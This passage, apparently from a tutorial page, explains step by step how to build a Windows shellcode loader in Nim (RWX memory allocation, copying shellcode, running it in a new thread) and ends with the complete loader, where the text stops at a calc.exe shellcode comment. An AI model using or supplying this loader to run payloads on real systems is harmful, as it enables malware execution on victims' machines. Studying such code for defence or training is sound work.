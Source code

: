 ```
void CopyMemory(
  _In_       PVOID  Destination,
  _In_ const VOID   *Source,
  _In_       SIZE_T Length
);
```

```nim
copyMem(mem, shellcode[0].addr, len(shellcode))
```

After this, we execute our shellcode using the `CreateThread` function:

```
HANDLE CreateThread(
  [in, optional]  LPSECURITY_ATTRIBUTES   lpThreadAttributes,
  [in]            SIZE_T                  dwStackSize,
  [in]            LPTHREAD_START_ROUTINE  lpStartAddress,
  [in, optional]  __drv_aliasesMem LPVOID lpParameter,
  [in]            DWORD                   dwCreationFlags,
  [out, optional] LPDWORD                 lpThreadId
);
```

```nim
var tHandle = CreateThread(nil, 0, cast[LPTHREAD_START_ROUTINE](mem), nil, 0, cast[LPDWORD](0))
```

And finally we take care of closing the thread and waiting for the shellcode to execute

```
BOOL CloseHandle(
  [in] HANDLE hObject
);
```

```nim
defer: CloseHandle(tHandle)
```

<br/>

```
DWORD WaitForSingleObject(
  [in] HANDLE hHandle,
  [in] DWORD  dwMilliseconds
);
```

```nim
discard WaitForSingleObject(tHandle, -1)
```

</br>

Finally our code is complete

```nim
import winim/lean

proc loadShellcode(shellcode: openarray[byte]): void =
  var mem = VirtualAlloc(nil, len(shellcode), MEM_COMMIT, PAGE_EXECUTE_READ_WRITE)
  copyMem(mem, shellcode[0].addr, len(shellcode))
  let tHandle = CreateThread(nil, 0, cast[LPTHREAD_START_ROUTINE](mem), nil, 0, cast[LPDWORD](0))
  defer: CloseHandle(tHandle)
  discard WaitForSingleObject(tHandle, -1)

when isMainModule:
  # calc.exe shellcode
```